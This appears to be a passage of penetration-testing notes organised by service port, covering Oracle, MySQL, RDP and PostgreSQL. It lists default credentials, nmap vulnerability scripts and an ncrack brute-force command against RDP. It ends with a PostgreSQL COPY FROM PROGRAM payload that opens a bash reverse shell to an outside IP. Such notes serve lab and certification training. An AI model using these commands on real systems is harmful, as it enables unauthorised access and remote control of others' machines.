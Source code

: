 ### Port 2100 - Oracle XML DB

```bash
FTP:
	sys:sys
	scott:tiger
```

Default passwords https://docs.oracle.com/cd/B10501\_01/win.920/a95490/username.htm

### 3306 - MySQL

https://book.hacktricks.xyz/pentesting/pentesting-mysql#basic-information

```bash
nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse 10.11.1.111 -p 3306

mysql --host=10.11.1.111 -u root -p

MYSQL UDF
https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/
```

### Port 3339 - Oracle web interface

* Basic info about web service (apache, nginx, IIS)

### RDP - 3389

```bash
nmap -p 3389 --script=rdp-vuln-ms12-020.nse
rdesktop -u username -p password -g 85% -r disk:share=/root/ 10.11.1.111
rdesktop -u guest -p guest 10.11.1.111 -g 94%
ncrack -vv --user Administrator -P /root/oscp/passwords.txt rdp://10.11.1.111
xfreerdp /u:bill /p:Password! /v:10.11.1.111
```

### PostgreSQL - 5432/5433

REF: Nibbles, Splodge

https://book.hacktricks.xyz/pentesting/pentesting-postgresql

https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection#rce-from-version-9.3

```bash
psql -U <myuser> # Open psql console with user
psql -h <host> -U <username> -d <database> # Remote connection
psql -h <host> -p <port> -U <username> -W <password> <database> # Remote connection

\list # List Databases
\c postgres # Connect to DB
\d <table> # List tables

Priv Esc via Postgres

CREATE TABLE cmd(cmd_output text); 
COPY cmd FROM PROGRAM 'bash -i >& /dev/tcp/192.168.49.114/80 0>&1'; 
```
